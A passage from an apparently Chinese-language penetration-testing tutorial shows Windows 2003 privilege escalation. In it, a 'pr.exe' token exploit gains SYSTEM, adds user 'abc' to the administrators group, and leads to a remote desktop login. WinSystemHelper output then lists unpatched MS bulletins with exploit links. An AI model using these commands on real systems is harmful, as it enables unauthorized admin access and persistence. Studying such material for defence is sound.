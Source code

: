 ```bash

```

上传 `pr.exe` ，执行 `pr.exe whoami` 可以看到已经是 system 权限了。

也可以进行添加用户的操作了。

发现 3389 端口开启，

![image-20210321171645944](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173300.png)

在继续将 `abc` 用户添加到远程桌面组。

```bash
C:\Inetpub\wwwroot\> pr.exe "net localgroup administrators abc /add"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1676 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:net localgroup administrators abc /add

命令成功完成。
```

尝试连接 3389，成功连接。

![image-20210321171835247](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173301.png)

##### 3.3.4 windows分析工具利用

**winsystemhelper-master**

win2003

https://github.com/brianwrf/WinSystemHelper/

上传 bat+txt 文件，运行 bat 查看结果

```bash
C:\Inetpub\wwwroot\> pr.exe "WinSysHelper.bat"
/xxoo/-->Build&&Change By p 
/xxoo/-->This exploit gives you a Local System shell 
/xxoo/-->Got WMI process Pid: 1924 
begin to try
/xxoo/-->Found token SYSTEM 
/xxoo/-->Command:WinSysHelper.bat

************** WinSystemHelper **************

OS: Win_2003

Exploit(s) of Privilege Escalation:


vul: MS10-084, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-014, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-056, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-062, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS12-003, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS12-009, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS12-018, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS07-067, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS09-012, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS09-041, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-097, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS11-011, exp: https://github.com/brianwrf/WinSystemHelper/
vul: MS08-005, exp: https://github.com/brianwrf/WinSystemHelper/
```